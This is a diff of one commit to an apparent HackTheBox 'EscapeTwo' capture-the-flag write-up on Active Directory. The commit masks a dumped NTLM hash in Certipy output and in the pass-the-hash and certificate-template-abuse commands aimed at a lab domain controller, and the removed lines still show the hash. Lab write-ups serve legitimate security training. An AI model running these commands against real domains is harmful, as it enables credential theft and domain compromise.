

Before and after one commit to Chw41/My-CTF-Challenges, a Markdown page: HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md, 3 parts joined by grey strips. GitHub-like rendering.

````diff
--- a/HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md
+++ b/HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md
@@ -850,7 +850,7 @@ Certipy v4.8.2 - by Oliver Lyak (ly4k)
 [*] Trying to retrieve NT hash for 'ca_svc'
 [*] Restoring the old Key Credentials for 'ca_svc'
 [*] Successfully restored the old Key Credentials for 'ca_svc'
-[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
+[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e**********
 
 ```
 > Dump 出 `ca_svc` 的 NTLM hash
@@ -868,7 +868,7 @@ Certipy v4.8.2 - by Oliver Lyak (ly4k)
 
 ```
 ┌──(chw㉿CHW)-[~]
-└─$ certipy find -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -vulnerable
+└─$ certipy find -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e********** -dc-ip 10.10.11.51 -vulnerable
 
 Certipy v4.8.2 - by Oliver Lyak (ly4k)
 
@@ -979,7 +979,7 @@ Certificate Templates
 >✅ 調整 ACL 權限（如果需要）
 ```
 ┌──(chw㉿CHW)-[~]
-└─$ certipy template -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -target DC01.sequel.htb -dc-ip 10.10.11.51 -debug
+└─$ certipy template -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e********** -template DunderMifflinAuthentication -target DC01.sequel.htb -dc-ip 10.10.11.51 -debug
 
 Certipy v4.8.2 - by Oliver Lyak (ly4k)
 
````
Also changed, not shown: other parts of HackTheBox/HackTheBox_EscapeTwo Writeup [Active Directory].md (+33 -33 lines).
